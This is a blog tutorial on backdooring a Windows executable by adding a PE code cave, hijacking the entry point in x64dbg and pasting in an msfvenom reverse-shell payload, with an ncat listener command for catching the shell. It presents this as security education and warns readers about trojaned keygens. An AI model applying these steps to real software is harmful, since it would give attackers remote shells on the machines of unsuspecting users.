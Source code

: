 +++
author = "Anthony Cozamanis"
title = "Backdooring Windows Executable Files"
date = "2017-06-26"
description = "Why we don't trust executables."
tags = [
    "backdoor",
    "pe",
    "Windows",
]
series = ["Payloads"]
+++

Have you ever wondered how people conceal malicious code in binaries? I certainly did, but it wasn't until many years after I had repeatedly infected my personal computers with backdoored keygens. Upon conducting a brief online search, I found numerous tutorials that explained the process. However, most of them referred to antiquated tools that were no longer in use. Other tutorials that I tried out did not function as expected or advertised. Below, I have documented the approach that I ultimately adopted, which employs up-to-date tools and a modified process.

*Disclaimer:* For all the newbies reading this, modern anti-virus will not be evaded with this (ignoring the fact that this tutorial uses a Keygen as the example executable and will most certainly be discovered *without* the inclusion of shellcode), additional research will be required to use this information and *improve* upon it.

Now to kick things off, I’d like to detail the tools we are going to be replacing:

 * x64dbg instead of Ollydbg
 * msfvenom instead of msfpayload
 * HxD instead of XVI32

Now that we are all setup, we are going to want to open our (currently) innocent application in LordPE (Click PE Editor), select Sections and right click to add a new section and then right click to edit the section header.

Important note: I am aware that LordPE is not a new tool. However, based on my experience using it, I have not found a reason to replace it with any other tool...or anything that could replace it. 

Once open, we want to add roughly 1000 bytes to the new section which should be enough space for our malicious code. Also, be sure to set the Virtual and Raw size to 1000 to coincide with the addition of bytes and save.

![1.png](/img/1.png)

Next, we will open our executable with HxD, scroll down to the bottom, click to bring up a cursor at the end of the hex, right click and insert bytes. The byte count should be at 1000 with the type of hex and the fill pattern to 00

![2.png](/img/2.png)

Once saved, we can close Hxd, open the newly modified application in x64dbg and click the Memory Map tab to review the memory mappings. Once there, look for the .NewSec section mapping, right click and copy the address and store it for later.

![3.png](/img/3.png)

Moving back to the CPU tab, we want to find the application entry point so we can replace it with a jump to our malicious code cave. This could look like anything, and if the second instruction isn’t a JMP, don’t copy the instruction, rather, copy the address and save for later.
Now, we want to replace the first instruction with a JMP to the .NewSec address (which we copied previously). 

![4.png](/img/4.png)

Hit F7, and we should jump to the beginning of our .NewSec space. Before we progress to the good stuff, we are going to want to save the current stack by pushing all 8 general purpose registers and EFlags register contents onto the stack, by inserting a PUSHAD and PUSHFD.

![5.png](/img/5.png)

*Note:* x64dbg will translate PUSHAD to pushal

Back over to our attacking machine, we will create a reverse shell payload with something like the following:

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.51 LPORT=8899 -f hex
```

![6.png](/img/6.png)

Once generated, copy and then binary paste all of the hex to begin right after our stack saving instructions. To do this, highlight the instruction right after our introduced PUSHFD instruction, right click, move to “Binary” then “Paste (Ignore Size)”.

![7.png](/img/7.png)

This next part can be tricky, but what we essentially want to do is start to step through the newly introduced code (by pressing F7), however stop and make note of the value of ESP after our PUSHFD, and as always, save it for later:

![8.png](/img/8.png)

After we’ve recorded this, scroll down to the end of the shell code and set a break point on the last 3 instructions. Next, jump back to our attacking machine and start a ncat listener with a command like the following:

```bash
ncat -nlvp 8899
```

Then, moving back to our victim machine, continue to run the program in the debugger and make note of the ESP when it hits the last breakpoint (very likely to be CALL EBP).

*Note:* We might need to kill the listener to reach it.

![9.png](/img/9.png)

Now that we have our two ESP values, we will use them to realign our stack and access our saved values. To do this though, we will first need to work out the difference between the two values.

![10.png](/img/10.png)

Once calculated, we will need to replace the CALL EBP instruction with our calculated difference with an ADD ESP instruction like so:

![11.png](/img/11.png)

Following on from this, we restored our previously saved registers with a POPFD and POPAD, then restored the initial call to the program, followed by a jump back to the second instruction in our executable.

Now, due to msfvenom ‘quirks’, before we patch the executable we will need to replace the following three instructions with NOPs to make sure the program continues to run without us needing to exit the reverse shell. The offending instruction will be in the order of dec esi, push esi and inc esi:

![12.png](/img/12.png)

![13.png](/img/13.png)

Once replaced, we can patch our executable with our malicious shell code:

![14.png](/img/14.png)

Now that we have a fully “patched” executable, we can move onto the fun part: testing! Before we run the application, we will want to start our ncat listener on our attacking machine with the command we ran during our development phase, then, run the executable:

![15.png](/img/15.png)

And if all goes well, we should have a shell!

![16.png](/img/16.png)

Anyway, what's the ultimate moral of the story? Well, if you see the torrent instructions telling you to disable your anti-virus before you run a keygen, don't.

